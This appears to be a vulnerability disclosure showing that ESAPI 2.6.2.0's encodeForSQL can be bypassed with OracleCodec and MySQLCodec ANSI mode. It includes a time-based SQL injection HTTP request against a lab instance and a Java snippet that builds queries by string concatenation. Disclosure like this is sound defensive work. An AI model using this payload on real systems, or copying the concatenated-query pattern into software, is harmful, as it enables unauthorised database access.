BUG_Author

Longlong Gong

# Project

Address: [esapi](https://github.com/ESAPI/esapi-java-legacy)

## 1、SQL injection filtering bypass

###  1.1、oracleCodec encodeForSQL bypass

[Affected version]

v2.6.2.0


[Affected Component]

```
Codec<Character> oracleCodec = new OracleCodec();
```


[Software]

https://github.com/ESAPI/esapi-java-legacy/archive/refs/tags/esapi-2.6.2.0.zip

give an example：https://github.com/whgojp/JavaSecLab


[Description]

When using Oracle's codec OracleCodex and ESAPI library for encoding in ESAPI2.6.2.0 components, SQL injection can be bypassed. Attackers can exploit this vulnerability to bypass SQL injection and launch SQL injection attacks

POC

```
GET /sqli/jdbc/safe5?id=1%5c'+and+if(1=1,sleep(5),1)--+&type=select&_=1749041001677 HTTP/1.1
Host: 192.168.1.184:33334
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36 Edg/137.0.0.0
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Referer: http://192.168.1.184:33334/sqli/jdbc/jdbcSafe
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1742043310; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747873860; JSESSIONID=840F4C6A21E8E88DF303E95A5BF7176A
Connection: keep-alive


```

Based on the JavaSeclab project that references ESAPI2.2.0.0, there have been no changes to the code in key areas of 2.6.2.0



Go to SQL Injection ->JDBC ->Security Scenarios ->Web Security Framework, first enter 1 for querying, and then use id=1% 5c '+and+if (1=1,1,1) for the data packet payload--+



You can see that the result is returned quickly without using the sleep function



Next, we use the sleep function and can see that the database has executed the sleep function



Let's follow the code and find that when passed in, it adds a back slash and a single quotation mark





After being encoded as a character, it became two single quotes, but the first one was commented as a regular character with a back slash, so it was bypassed



You can see the last executed statement below



Let's take a look at the latest code below





###  1.2、MySQLCodec ANSI encodeForSQL bypass

[Affected version]

v2.6.2.0


[Affected Component]

```
Codec<Character> mysqlCodec = new MySQLCodec(MySQLCodec.Mode.ANSI);
```


[Software]

https://github.com/ESAPI/esapi-java-legacy/archive/refs/tags/esapi-2.6.2.0.zip

give an example：https://github.com/whgojp/JavaSecLab


[Description]

When using MySQL codec's ANSI mode and ESAPI library for encoding in ESAPI2.6.2.0 components, SQL injection defense can be bypassed. Attackers can exploit this vulnerability to bypass SQL injection defense and launch SQL injection attacks

POC

```
GET /sqli/jdbc/safe5?id=1%5c'+and+if(1=1,sleep(5),1)--+&type=select&_=1749041001677 HTTP/1.1
Host: 192.168.1.184:33334
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36 Edg/137.0.0.0
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Referer: http://192.168.1.184:33334/sqli/jdbc/jdbcSafe
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1742043310; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747873860; JSESSIONID=840F4C6A21E8E88DF303E95A5BF7176A
Connection: keep-alive


```

Based on the JavaSeclab project that references ESAPI2.2.0.0, there have been no changes to the code in key areas of 2.6.2.0

Let's first modify the code to make it compatible with the MySQL engine

```java
Codec<Character> mysqlCodec = new MySQLCodec(MySQLCodec.Mode.ANSI);
Class.forName("com.mysql.cj.jdbc.Driver");
Connection conn = DriverManager.getConnection(dbUrl, dbUser, dbPass);

Statement stmt = conn.createStatement();
String sql = "select * from sqli where id = '" + ESAPI.encoder().encodeForSQL(mysqlCodec, id) + "'";
```

Go to SQL Injection ->JDBC ->Security Scenarios ->Web Security Framework, first enter 1 for querying, and then use id=1% 5c '+and+if (1=1,1,1) for the data packet payload--+







Let's take a look at the latest code below






